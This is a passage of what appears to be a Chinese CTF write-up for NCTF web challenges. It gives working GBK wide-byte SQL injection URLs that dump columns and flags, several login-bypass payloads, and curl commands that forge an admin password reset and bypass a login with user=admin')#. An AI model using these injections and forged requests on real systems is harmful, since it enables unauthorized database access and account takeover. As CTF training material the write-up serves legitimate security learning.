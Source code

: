 1020,1021,1022,1023,1024,1025
h4cked_By_w00dPeck3r,h4cked_By_w00dPeck3r,h4cked_By_w00dPeck3r,h4cked_By_w00dPeck3r,the flag is:nctf{query_in_mysql},h4cked_By_w00dPeck3r

再次提交提交仍然不对
再查
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=0x63746634%23
列id,flag
http://chinalover.sinaapp.com/SQL-GBK/index.php?id=-1%af%27%20union%20select%201,group_concat(flag)%20from%20ctf4%20%23
flag{this_is_sqli_flag}
仍然不对
爆了其他表后都发现不对，后来看了网上的writeup发现就应该是ctf4中的内容，这道题flag出问题了、


## 13.密码重置
curl -X POST -d "user=admin&newpass=123&vcode=1234&submit=重置" "http://nctf.nuptzj.cn/web13/index.php?user1=YWRtaW4=

考点，密码重置时没有验证身份或验证身份不够强，导致攻击者可以伪造身份修改其他人的密码。


## 14.sql injection

SELECT * FROM users WHERE name='' AND pass=''
要绕过登录可以几种方法：
- SELECT * FROM users WHERE name='admin'#' AND pass=''
- SELECT * FROM users WHERE name='admin' AND pass='123' or '1'
- SELECT * FROM users WHERE name='\' AND pass=' or 1#'

因为严格过滤了引号所以1，2方法不行
第三种方法时
username=\
pass= or 1%23
巧妙的拼接可以绕过
！！！其实stripslashes没有开启


### 15.SQL注入1
看下源码,关键语句：
```
$user = trim($_POST[user]);
$pass = md5(trim($_POST[pass]));
$sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
```

查询语句
select user from ctf where (user='') and (pw='')
所以只需：
select user from ctf where (user='admin')#') and (pw='')
账户名为admin')#
密码任意即可
即：
curl -X POST -d "user=admin')#&pass=1" "http://chinalover.sinaapp.com/index.php"
